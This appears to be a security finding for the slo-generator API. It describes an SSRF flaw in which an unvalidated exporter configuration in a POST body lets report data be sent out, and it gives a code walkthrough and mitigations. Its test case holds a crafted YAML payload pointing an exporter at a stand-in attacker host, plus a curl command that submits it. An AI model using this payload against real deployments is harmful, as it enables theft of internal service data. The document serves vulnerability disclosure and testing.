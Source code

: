 ### Vulnerability List

- Vulnerability Name: SSRF via Malicious Exporter Configuration in API
- Description:
  1. An attacker sends a POST request to the `slo-generator` API with a crafted SLO configuration in the request body.
  2. This malicious SLO configuration is designed to inject or modify the `exporters` section.
  3. The attacker manipulates the exporter configuration, specifically the exporter's destination (e.g., `url` for Prometheus exporter, `service_url` for Cloudevent exporter, `project_id`, `dataset_id`, `table_id` for BigQuery exporter, API keys for Datadog/Dynatrace exporters, etc.) to point to an attacker-controlled external service.
  4. When the `slo-generator` processes this malicious configuration, it will use the attacker-provided exporter configuration to export the SLO report data.
  5. This results in sensitive SLO data being sent to the attacker's external service, effectively achieving Server-Side Request Forgery (SSRF) and data exfiltration.
- Impact:
  - Sensitive SLO data, which may include metrics, error budget information, service names, feature names, and potentially other internal details, is exfiltrated to an attacker-controlled external service.
  - This data breach can expose business-critical information about service performance, reliability, and internal infrastructure, potentially leading to further security risks or competitive disadvantage.
- Vulnerability Rank: High
- Currently Implemented Mitigations:
  - None. The code does not implement any validation or sanitization of the exporter configurations provided in the POST request body to the API.
- Missing Mitigations:
  - Input validation and sanitization of the SLO configuration, especially the `exporters` section, in the API endpoint.
  - Whitelisting of allowed exporter destinations or protocols.
  - Implementing authentication and authorization for the API endpoint to restrict access to authorized users only.
  - Principle of least privilege for the API service account, limiting its access to only necessary resources.
- Preconditions:
  - The `slo-generator` API must be deployed and accessible over a network (e.g., deployed in Cloud Run, Kubernetes, or Cloud Functions).
  - The API endpoint must be configured to accept POST requests with SLO configurations.
  - The attacker must have network access to send POST requests to the `slo-generator` API endpoint.
- Source Code Analysis:
  1. **API Endpoint (`slo_generator/api/main.py`):**
     - The `run_compute` function is the entry point for the API when the target is `compute`.
     - It loads the shared configuration using `load_config(CONFIG_PATH)`.
     - It loads the SLO configuration from the request body using `load_config(data)`.
     - It calls the `compute` function to process the SLO configuration and generate reports.
     - The `run_export` function is the entry point for the API when the target is `run_export`.
     - It loads the shared configuration using `load_config(CONFIG_PATH)`.
     - It extracts the SLO report from the request body using `process_req` and `load_config`.
     - It retrieves exporters configuration using `get_exporters(config, spec)`.
     - It calls the `export` function to export the SLO report data using the retrieved exporters.
     - **Vulnerability Point:** Neither `run_compute` nor `run_export` function validates or sanitizes the SLO configuration loaded from the request body, including the `exporters` section.

  2. **Compute and Export Logic (`slo_generator/compute.py`):**
     - The `compute` function processes the SLO configuration and retrieves exporters using `utils.get_exporters(config, spec)`.
     - The `export` function iterates through the list of exporters and calls the `export` method of each exporter class.
     - **Vulnerability Point:** The `utils.get_exporters` function retrieves exporter configurations based on the `exporters` list in the SLO configuration and the shared configuration, but it doesn't validate the exporter configurations themselves. It blindly trusts the configurations provided in the SLO config.

  3. **Exporter Classes (`slo_generator/exporters/*`):**
     - Exporter classes like `PrometheusExporter`, `CloudeventExporter`, `BigqueryExporter`, `DatadogExporter`, and `DynatraceExporter` use the configuration parameters directly to export data to the specified destinations.
     - For example, `PrometheusExporter` uses the `url` parameter to push metrics to a Prometheus Pushgateway, `CloudeventExporter` uses `service_url` to send CloudEvents, and so on.
     - **Vulnerability Point:** Exporter classes rely on the assumption that the configuration parameters are valid and trustworthy. They do not implement any checks to ensure that the destination URLs or API keys are legitimate or safe.

  4. **Visualization:**

  ```mermaid
  graph LR
      A[Attacker] --> B{slo-generator API Endpoint};
      B -- POST Malicious SLO Config --> C[API Handler (run_compute/run_export)];
      C --> D{load_config (Request Body)};
      D -- Malicious SLO Config --> E[SLO Configuration];
      E --> F{utils.get_exporters};
      F -- Malicious Exporter Config --> G[Exporter Configurations];
      G --> H{export Function};
      H -- Malicious Exporter Configuration --> I[Exporter Class (e.g., PrometheusExporter)];
      I -- Attacker Controlled URL/Service --> J[Attacker Service];
      C --> K[Compute SLO Report];
      K --> H;
      J <-- SLO Report Data -- I;
  ```

- Security Test Case:
  1. **Prerequisites:**
     - Deploy a publicly accessible instance of `slo-generator` API (e.g., in Cloud Run) configured to use the `prometheus` exporter and API mode enabled.
     - Set up a simple HTTP listener (e.g., using `netcat` or `ngrok`) on an attacker-controlled server to capture exfiltrated data. Let's say the attacker server URL is `http://attacker.example.com:8080`.

  2. **Craft Malicious SLO Configuration (YAML):**
     ```yaml
     apiVersion: sre.google.com/v2
     kind: ServiceLevelObjective
     metadata:
       name: malicious-slo-export
       labels:
         service_name: test
         feature_name: test
         slo_name: test
     spec:
       description: Malicious SLO to exfiltrate data
       backend: cloud_monitoring
       method: good_bad_ratio
       exporters:
       - prometheus:
           url: http://attacker.example.com:8080 # Attacker controlled URL
       service_level_indicator:
         filter_good: >
           metric.type="run.googleapis.com/request_count"
           project="your-project-id" # Replace with your project ID if needed
           metric.labels.response_code_class="2xx"
         filter_valid: >
           metric.type="run.googleapis.com/request_count"
           project="your-project-id" # Replace with your project ID if needed
       goal: 0.99
     ```
     Replace `http://attacker.example.com:8080` with the actual URL of your attacker-controlled HTTP listener.

  3. **Send POST Request to API:**
     ```bash
     curl -X POST -H "Content-Type: text/x-yaml" --data-binary @malicious-slo.yaml http://<slo-generator-api-endpoint>
     ```
     Replace `http://<slo-generator-api-endpoint>` with the actual URL of your deployed `slo-generator` API endpoint.

  4. **Observe Exfiltration:**
     - Check the logs of your attacker-controlled HTTP listener. You should see an HTTP POST request containing the SLO report data exfiltrated from the `slo-generator` instance. The data will be in Prometheus exposition format if using the `prometheus` exporter as in the example.

This test case demonstrates that an attacker can successfully redirect SLO report data to an external service by injecting a malicious exporter configuration, confirming the SSRF vulnerability.